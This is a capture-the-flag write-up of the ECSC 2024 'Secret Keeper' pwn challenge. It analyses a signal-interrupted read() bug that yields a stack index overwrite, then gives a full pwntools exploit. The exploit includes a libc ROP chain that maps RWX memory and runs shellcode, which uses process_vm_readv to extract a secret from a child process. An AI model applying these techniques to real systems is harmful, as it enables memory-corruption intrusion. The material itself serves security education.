


# ECSC 2024 - Jeopardy

## [pwn] Secret Keeper (11 solves)

I'm so good at keeping secrets, I even forget them myself!
I'll give you a chance to find out the secret I've been keeping...
Let's see if you can find it!

`nc secretkeeper.challs.jeopardy.ecsc2024.it 1337`

Author: Nalin Dhingra <@Lotus>

## Challenge overview

The challenge source code is fairly simple and straightforward, there is a main
process that will read the flag from the `environment` variables and will copy
it at the beginning of a randomized mapping of size _0x100000_. Once the flag is
copied it is deleted from the `environment` variables.

After this initial setup the main thread will fork itself. The child process
will delete any reference to the randomized pointer where the flag is stored at,
start an alarm to kill itself after a while and will then go idle by looping
until stopped on a `sleep(1)`.

The parent process will `unmap` the secret mapping and delete any reference to
it. It will then execute the main portion of the program.
First of all it will load a **seccomp filter** which can be easily dumped with
`seccomp-tools`:



The objective for the filter is to avoid obtaining a shell (the flag is anyways
readable from memory).
Subsequently a signal handler will be installed for `SIGALRM`. The handler when
triggered will uninstall itself and start a new alarm.

The program will then print a description with a given address from _libc_.

Finally we come to the part where user interactions are managed.
A user will have a maximum number of _3_ guesses where they send a string
representing an address, the parent process will then convert it to a long
integer and use it within a call to `process_vm_readv` to try and read from that
address from the child process memory.
This can be used to guess where the flag is stored, but anyways even if the
guess is correct the parent will never print the flag.

## Vulnerability analysis

The main vulnerability is situated in the function that reads user input:

```C
ssize_t read_until_newline(int fd, char *buf, ssize_t count)
{
    ssize_t n = 0;
    while (n < count) {
        n += read(fd, buf + n, count - n);
        if (buf[n - 1] == '\n') {
            break;
        }
    }
    return n;
}
```

As you can notice the return value of `read` is not checked, therefore if you
manage to cause a fault in the syscall it will return `-1`. Reading the _man page_
this can happen also when the `read` is interrupted by a signal. This could be
used in combination with the first alarm since the signal handler will just
start a new timer without changing the execution context.

Therefore if during the first input read you just wait for the alarm to go off,
you will obtain an off by one at offset _-1_ of `buf`.
Analysing the stack to see what's before the buffer you will notice that the
index used to loop in the `guesses` array is just before the array itself,
meaning we can overwrite it using the vulnerability explained above.

## Solution

The intended solution is to use the given vulnerability to set the index to the
value of _4_ by sending a raw byte of `\x04`. This after the increment will make
it so that the next read will be over the return address of the `game` function
skipping the `stack protector` entirely.
Since the buffer is not really aligned by _qwords_ you need to find a gadget
that has the same _LSB_ as the original return address, but this is quite
trivial given the free _libc_ leak. After that you can just keep inserting
guesses to write a full _ROP chain_. Given the limitations of the _SECCOMP
filter_ you cannot obtain a shell, so the next best thing is to use the _ROP_ to
`mmap` a new page with `RWX` permissions, read a _shellcode_ at the newly
allocated mapping and jump to it.
The _shellcode_ should then be used to retrieve the `child_pid` value and use
calls to `process_vm_readv` as _egghunting_ to find the mapping where the flag
is stored in the **child's** address space.
Unfortunately because during the seeding of the **RNG** I used `time(NULL)`
instead of reading from `/dev/urandom` the seed can be guessed and avoid the
_egghunting_ phase by keeping track of the time you connect to the service.

## Exploit

```python
#!/bin/env python3

import sys
from pwn import *

#
# INIT
#
elf = context.binary = ELF(os.path.join(os.path.dirname(__file__), "bin/secret-keeper"), False)
libc = ELF(os.path.join(os.path.dirname(__file__), "glibc/libc.so.6"), False)

#
# GADGETS
#

# return from game has LSB == 0x72 so we need to find a gadget with same LSB
INIT_GADGET = 0x17aa72                  # ret;
POP_RAX = 0xd2cb7                       # pop rax; ret;
POP_RDI = 0x2493d                       # pop rdi; ret;
POP_RSI = 0x1160b1                      # pop rsi; ret;
POP_RDX_RBX_R12_RBP = 0xa1ff2           # pop rdx; adc al, 0; pop rbx; pop r12; pop rbp; ret;
POP_RCX = 0x11b53e                      # pop rcx; ret;
XOR_R8D_R8D = 0x9b166                   # xor r8d, r8d; ret;
XOR_R8D_EAX_POP_RBX_R12_RBP = 0x12a7a4  # xor r8d, eax; pop rbx; pop r12; pop rbp; ret;

#
# SHELLCODE
#
shellcode = """
    jmp main
get_child_pid:
    mov rax, [rsp-0x1d8]
    add rax, 0x372c
    mov rax, [rax]
    lea rbx, [rip+child_pid]
    mov [rbx], eax
    ret
do_process_vm_readv:
    mov rdi, [rip+child_pid]
    lea rsi, [rip+local_iov]
    mov rdx, 1
    lea r10, [rip+remote_iov]
    mov r8, 1
    mov r9, 0
    mov rax, 0x136
    syscall
    ret
main:
    call get_child_pid
find_mapping:
    lea rax, [rip+curr_page]
    lea rbx, [rip+remote_iov]
    mov rdx, [rax]
    mov [rbx], rdx
    call do_process_vm_readv
    cmp rax, -14
    jne search_flag
    lea rax, [rip+curr_page]
    mov rdx, [rax]
    add rdx, 0x100000
    mov [rax], rdx
    mov rcx, 0x100000000
    cmp rdx, rcx
    jb find_mapping
    jmp exit
check_flag:
    mov rax, 0x31337f00
    mov bl, [rax]
    cmp bl, 0x0
    jne print_flag
    ret
search_flag:
    call check_flag
    lea rax, [rip+curr_size]
    mov rdx, [rax]
    shr rdx, 1
    cmp rdx, 0x1000
    jb print_flag
    mov [rax], rdx
    lea rax, [rip+curr_page]
    mov rbx, [rax]
    sub rbx, rdx
    mov [rax], rbx
    lea rax, [rip+remote_iov]
    mov [rax], rbx
    call do_process_vm_readv
    cmp rax, -14
    je handle_mapping_failure
    jmp search_flag
handle_mapping_failure:
    lea rax, [rip+curr_page]
    mov rdx, [rax]
    lea rax, [rip+curr_size]
    mov rbx, [rax]
    add rdx, rbx
    lea rax, [rip+curr_page]
    mov [rax], rdx
    lea rax, [rip+remote_iov]
    mov [rax], rdx
    jmp search_flag
print_flag:
    mov rdi, 1
    mov rsi, 0x31337f00
    mov rdx, 0x100
    mov rax, 1
    syscall
exit:
    mov rax, 60
    xor edi, edi
    syscall
curr_size:
    .quad 0x100000
curr_page:
    .quad 0x100000
child_pid:
    .quad 0
local_iov:
    .quad 0x31337f00
    .quad 0x100
remote_iov:
    .quad 0
    .quad 0x100
    """


#
# FUNCTIONS
#
def send_rop(rop):
    # Skip the first byte because of alignment
    rop = rop[1:]
    # send 16 bytes at a time
    for i in range(0, len(rop), 16):
        payload = rop[i:i+16]
        if len(payload) < 16:
            payload = payload.ljust(16, b"\x00")
        io.sendafter(b"> ", payload)
    io.sendlineafter(b"> ", b"END")

#
# EXPLOIT
#
def exploit(HOST, PORT):
    global io
    io = remote(HOST, PORT)

    POW_BYPASS = b'99:27363338f2bb7c3efbe621c882dea0af'

    if args.REMOTE:
        io.sendlineafter(b"Result: ", POW_BYPASS)

    # Libc leak
    io.recvuntil(b"hint: ")
    libc.address = int(io.recvline(False), 16) - libc.sym["read"]
    success(f"libc base: {hex(libc.address)}")

    info("Waiting for first timeout to interrupt the read...")

    # Overwrite of index used in the loop
    io.sendlineafter(b"hurry up!\n", b"\x04" + b"A"*8)

    success("Timeout triggered, sending ROP chain...")

    # ROP chain
    rop = p64(libc.address + INIT_GADGET)
    # mmap(0x31337000, 0x1000, 7, 0x22, -1, 0)
    rop += p64(libc.address + POP_RDI)
    rop += p64(0x31337000)
    rop += p64(libc.address + POP_RSI)
    rop += p64(0x1000)
    rop += p64(libc.address + POP_RDX_RBX_R12_RBP)
    rop += p64(7) * 4
    rop += p64(libc.address + POP_RAX)
    rop += p64(0xffffffff)
    rop += p64(libc.address + XOR_R8D_R8D)
    rop += p64(libc.address + XOR_R8D_EAX_POP_RBX_R12_RBP)
    rop += p64(0xdeadbeef) * 3
    rop += p64(libc.address + POP_RCX)
    rop += p64(0x22)
    rop += p64(libc.sym["mmap"])
    # read(0, 0x31337000, 0x1000)
    rop += p64(libc.address + POP_RDI)
    rop += p64(0)
    rop += p64(libc.address + POP_RSI)
    rop += p64(0x31337000)
    rop += p64(libc.address + POP_RDX_RBX_R12_RBP)
    rop += p64(0x1000) * 4
    rop += p64(libc.sym["read"])
    # jump to mmaped shellcode
    rop += p64(0x31337000)
    send_rop(rop)

    sleep(1)

    shellcode_asm = asm(shellcode)
    io.sendafter(b"Game over!\n", shellcode_asm)

    flag = io.recvuntil(b"}")
    print(flag.decode())

    return flag.decode()


if __name__ == "__main__":
    exploit("localhost", 1337)
```


